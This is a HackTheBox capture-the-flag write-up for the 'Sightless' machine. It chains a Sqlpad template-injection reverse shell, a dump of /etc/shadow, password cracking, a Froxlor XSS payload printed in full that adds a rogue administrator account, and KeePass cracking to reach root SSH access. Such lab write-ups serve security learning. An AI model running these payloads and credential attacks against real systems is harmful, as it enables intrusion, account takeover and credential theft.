

## Writeup for Sightless from HackTheBox


First a nmap scan was performed on the target machine to see which ports are available.


```bash
$ nmap -sC -sV 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 02:05 EST
Nmap scan report for 10.10.11.32
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=1/10%Time=6780C6B2%P=aarch64-unknown-linux-g
SF:nu%r(GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
SF:TP\x20Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20comman
SF:d:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.83 seconds
```


There are three services found, a webserver on port 80, a FTP server on port 21 and a SSH server on port 22. During the scan on the webserver, the domain sightless.htb was revealed, which was added to /etc/hosts.


Visiting the webserver first, there appears to be a standard site with some links. Visiting the page source, it can be seen that one of the links leads to "sqlpad.sightless.htb".





Visiting that page, it can be seen that an Sqlpad application is running on it. Sqlpad is a open source browser based application which is used to allow users to connect to various database servers and write SQL code to query them.


First, the version of Sqlpad will need to be established to find out if it is a vulnerable version. This can be easily verified by clicking the top rightmost icon. The version was established to be 6.10.0.


Researching whether Sqlpad 6.10.0 is vulnerable to any public exploits, it was found that is was indeed vulnerable to CVE-2022-0944. A public exploit for this could be found on Github: https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944.


CVE-2022-0944 is a Template Injection vulnerability in the "/api/test-connection" endpoint in Sqlpad. The "test-connection" endpoint is typically used to test the connection whenever the user creates a new connection to an SQL server. Injecting this malicious payload allows for code execution where, in this case, a reverse shell will be sent to the attacker.


The exploit was cloned and was executed against the target machine. Before the exploit is executed, start a netcat listener which will catch the reverse shell sent from this exploit.


Following this a reverse shell was successfully obtained:


```bash
root@c184118df0a6:/var/lib/sqlpad# ls /
ls /
bin
boot
dev
docker-entrypoint
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```


A root user was returned from the reverse shell. However, reading the root path, it has a "docker-entrypoint" directory which indicates that the reverse shell is of a Docker container. Hence, in order to gain foothold on the actual target machine, it is necessary to break out of the Docker container.


To do this, first an enumeration of files was performed. There is a file in the current directory called "sqlpad.sqlite" which does contain a hash. Cracking the hash reveals the password "admin", however, it cannot be used to login as the "michael" user. The next step which was performed was to read the `/etc/shadow` file on the Docker container, which is possible as the user in the reverse shell is the root user.


```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```


The hash for the user "michael" was cracked using John the Ripper, by running a dictionary attack on the hash using the rockyou text file.


```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (?)     
1g 0:00:00:13 DONE (2025-01-14 00:50) 0.07326g/s 4313p/s 4313c/s 4313C/s kruimel..bluedolphin
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


Michael's password is "insaneclownposse". The next step is to check if the same password to login as Michael on the target machine using SSH. Indeed, the login was successful.


The next step was to check if Michael has privileges to run any commands as superuser. He does not. Next is to check if there are any open ports on the machine using `ss -tno`.


```bash
michael@sightless:~$ ss -tno
State            Recv-Q         Send-Q                 Local Address:Port                   Peer Address:Port          Process                              
ESTAB            0              0                        10.10.11.32:80                       10.10.14.7:39582                                              
ESTAB            0              0                        10.10.11.32:80                       10.10.14.7:52928                                              
ESTAB            0              0                          127.0.0.1:35639                     127.0.0.1:35224          timer:(keepalive,34sec,0)           
ESTAB            0              0                        10.10.11.32:22                      10.10.14.31:54190          timer:(keepalive,119min,0)          
ESTAB            0              0                        10.10.11.32:80                       10.10.14.7:39560                                              
ESTAB            0              0                          127.0.0.1:35639                     127.0.0.1:35226          timer:(keepalive,9.604ms,0)         
ESTAB            0              0                          127.0.0.1:45877                     127.0.0.1:34920          timer:(keepalive,9.560ms,0)         
ESTAB            0              0                        10.10.11.32:22                     10.10.14.123:52906          timer:(keepalive,116min,0)          
ESTAB            0              0                          127.0.0.1:34990                     127.0.0.1:8080           timer:(keepalive,40sec,0)           
ESTAB            0              0                          127.0.0.1:35224                     127.0.0.1:35639          timer:(keepalive,34sec,0)           
ESTAB            0              0                          127.0.0.1:34920                     127.0.0.1:45877                                              
ESTAB            0              0                        10.10.11.32:80                       10.10.14.7:52938                                              
SYN-SENT         0              1                        10.10.11.32:45732                       8.8.8.8:53             timer:(on,164ms,0)                  
ESTAB            0              52                       10.10.11.32:22                      10.10.14.31:56700          timer:(on,320ms,0)                  
ESTAB            0              0                        10.10.11.32:22                       10.10.14.7:53982          timer:(keepalive,34min,0)           
ESTAB            0              0                        10.10.11.32:80                       10.10.14.7:52950                                              
ESTAB            0              0                          127.0.0.1:35226                     127.0.0.1:35639          timer:(keepalive,9.560ms,0)         
ESTAB            0              0                          127.0.0.1:8080                      127.0.0.1:34990          timer:(keepalive,119min,0)          
ESTAB            0              0                        10.10.11.32:80                       10.10.14.7:39574
```


Indeed there are several open ports. Out of all the ports, 8080 is the only one that is accessible via HTTP and directs the user to a Froxlor login page (confirmed via port forwarding using SSH by running the command `ssh -L 9000:127.0.0.1:8080 michael@10.10.11.32`).


The site can be visited on the browser through `http:127.0.0.1:9000`, which reveals a Froxlor login page. Note: "127.0.0.1" is the only domain that will not direct the user to notice.html. Using localhost instead, for example, will direct the user to notice.html and will not make the login page accessible at all.


From the login page, the version of Froxlor which is used is not accessible at all. So research was performed to see if there are any Froxlor versions which are vulnerable to any public exploits. The first public exploit found is a remote code execution exploit on Exploit-DB. However, further researches points to another more recent exploit, a Cross Site Scripting (XSS) exploit released in 2024: https://github.com/froxlor/Froxlor/security/advisories/GHSA-x525-54hf-xr53.


This exploit appears to be published by a contributor to the Froxlor open source project. It contains steps on how to replicate the exploit. This vulnerability is exploited by sending a XSS payload to the loginname parameter of the POST request which is sent whenever the user attempts a login. 


The exploit is able to bypass the XSS sanitisation library employed by Froxlor by exploiting Vue.js interpolation, a feature which works similarly to how Jinja dynamically inserts values in a template. Within the template expression, a Javascript function is created and is only executed when the administrator user visits the page which contains the malicious injection. The function simply creates a POST request to "/admin_admins.php", which is an endpoint used for managing administrator user accounts. The request will add a new user with administrator privileges with credentials that the attacker sets. Hence, this effectively gives the attacker administrative access to the Froxlor application.


The payload can be downloaded as a text file on the same Github security advisory site where this vulnerability was reported. However, the contents of the payload have to be changed so that it sends the Javascript payload to the right place. The below payload was modified to work against the target machine in this box:


```bash
admin{{$emit.constructor`function+b(){var+metaTag%3ddocument.querySelector('meta[name%3d"csrf-token"]')%3bvar+csrfToken%3dmetaTag.getAttribute('content')%3bvar+xhr%3dnew+XMLHttpRequest()%3bvar+url%3d"/admin_admins.php"%3bvar+params%3d"new_loginname%3dabcd%26admin_password%3dAbcd%40%401234%26admin_password_suggestion%3dmgphdKecOu%26def_language%3den%26api_allowed%3d0%26api_allowed%3d1%26name%3dAbcd%26email%3dyldrmtest%40gmail.com%26custom_notes%3d%26custom_notes_show%3d0%26ipaddress%3d-1%26change_serversettings%3d0%26change_serversettings%3d1%26customers%3d0%26customers_ul%3d1%26customers_see_all%3d0%26customers_see_all%3d1%26domains%3d0%26domains_ul%3d1%26caneditphpsettings%3d0%26caneditphpsettings%3d1%26diskspace%3d0%26diskspace_ul%3d1%26traffic%3d0%26traffic_ul%3d1%26subdomains%3d0%26subdomains_ul%3d1%26emails%3d0%26emails_ul%3d1%26email_accounts%3d0%26email_accounts_ul%3d1%26email_forwarders%3d0%26email_forwarders_ul%3d1%26ftps%3d0%26ftps_ul%3d1%26mysqls%3d0%26mysqls_ul%3d1%26csrf_token%3d"%2bcsrfToken%2b"%26page%3dadmins%26action%3dadd%26send%3dsend"%3bxhr.open("POST",url,true)%3bxhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")%3balert("Your+Froxlor+Application+has+been+completely+Hacked")%3bxhr.send(params)}%3ba%3db()`()}}
```


Send this payload in the loginname parameter of the POST request:


Upon sending this payload in the loginname parameter of the POST request, login with the following credentials:


```
abcd:Abcd@@1234
```


Logining in with those credentials will give the user admin access to the administrative page of the Froxlor application. Among the many features of the administrative page, there is a section that allows the admin to set the FTP password. The password could be changed to allow the attacker to access the files stored on the target FTP server. Here the username "web1" is revealed to be the FTP username.


Logining in with just regular FTP does not work as this FTP server only accepts a secure connection. To resolve this, the `lftp` command was used, which uses FTP and SSL to establish a secure connection between the FTP server and client. Use the username web1 and the password which was just set for login.


Accessing the FTP server reveals a file called Database.kdb in the `goaccess/backup` directory. This is a Keepass file which is a database that stores sensitive data such as user credentials.


```bash
$ lftp -u web1,JzaktxjqnM 10.10.11.32       
lftp web1@10.10.11.32:~> ls
ls: Fatal error: Certificate verification: The certificate is NOT trusted. The certificate issuer is unknown.  (A1:4B:95:93:0A:CF:15:CD:DD:52:68:ED:DB:5B:92:ED:F0:F3:3C:69)
lftp web1@10.10.11.32:~> set ssl:verify-certificate no
lftp web1@10.10.11.32:~> ls
drwxr-xr-x   3 web1     web1         4096 May 17  2024 goaccess
-rw-r--r--   1 web1     web1         8376 Mar 29  2024 index.html
lftp web1@10.10.11.32:/> ls goaccess
drwxr-xr-x   2 web1     web1         4096 Aug  2 07:14 backup
lftp web1@10.10.11.32:/> ls goaccess/backup
-rw-r--r--   1 web1     web1         5292 Aug  6 14:29 Database.kdb
lftp web1@10.10.11.32:/> get goaccess/backup/Database.kdb
5292 bytes transferred in 1 second (4.5 KiB/s)     
lftp web1@10.10.11.32:/> 
```


Downloading the file, the next step is to attempt to view its contents. Keepass files are encrypted with a key that is derived from a master password which the owner of the file sets. If the password is weak, then it would be possible to crack it and view the contents of the file.


To do this, use keepass2john to obtain the hash of the master password.


```bash
keepass2john Database.kdb > data.hash    
Inlining Database.kdb
```


This will produce a file containing the hash which can then be cracked by John the Ripper.


```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt data.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:17 DONE (2025-01-14 04:15) 0.05621g/s 61.15p/s 61.15c/s 61.15C/s kucing..morena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


Cracking the hash reveals the password "bulldogs". Now, the command line tool kpcli, which is used to access KeePass files, can be used to access the database and obtain any confidential data.


```bash
$ kpcli --kdb=Database.kdb
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
General/
kpcli:/> cd General
kpcli:/General> ls
=== Groups ===
eMail/
Homebanking/
Internet/
Network/
sightless.htb/
Windows/
kpcli:/General> cd sightless.htb
kpcli:/General/sightless.htb> ls
=== Groups ===
Backup/
kpcli:/General/sightless.htb> cd Backup
kpcli:/General/sightless.htb/Backup> ls
=== Entries ===
0. ssh                                                                    
kpcli:/General/sightless.htb/Backup> show -f ssh

 Path: /General/sightless.htb/Backup/
Title: ssh
Uname: root
 Pass: q6gnLTB74L132TMdFCpK
  URL: 
Notes: 
Atchm: id_rsa (3428 bytes)

kpcli:/General/sightless.htb/Backup> attach ssh
Atchm: id_rsa (3428 bytes)
Choose: (a)dd/(e)xport/(d)elete/(c)ancel/(F)inish? 
Path to file: /home/kali/Desktop/id_rsa
Saved to: /home/kali/Desktop/id_rsa
Atchm: id_rsa (3428 bytes)
Choose: (a)dd/(e)xport/(d)elete/(c)ancel/(F)inish? 
kpcli:/General/sightless.htb/Backup>
```


A file called "ssh" in the `/General/sightless.htb/Backup` directory of the Keepass database can be found. This should be a SSH private key which can be used to login as the root user. The file is downloaded using the `attach ssh` command.


Changing the private key to read-only permissions allows for the key to be used to login as the root user and successfully escalate privileges. Note: there is a formatting issue when downloading the private key file straight from Keepass. This was fixed by using the `cat` command to output the contents of the SSH private key onto the terminal, then copying the output onto a new file.


```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa root@10.10.11.32
Last login: Tue Jan 14 09:43:45 2025 from 10.10.14.31
root@sightless:~# id
uid=0(root) gid=0(root) groups=0(root)
```


Overall, the steps to gain foothold were fairly straightforward as the vulnerable Sqlpad version could be easily found and the exploit for this vulnerability is public. However, escalating privileges was certainly more difficult. Firstly, the fact that the Froxlor version could not be ascertained meant I had to try other public exploits before finding the correct one. Next, finding the correct payload was also something I struggled with. I initially used "localhost" as the domain which the XSS payload should be sent to, only to realise this would not work because the payload needs to be sent, not to my machine, but to the target webserver hosting Froxlor. Then, I had to access a Keepass database, a technology I was not initially familiar with, but which I am now much more confident in using.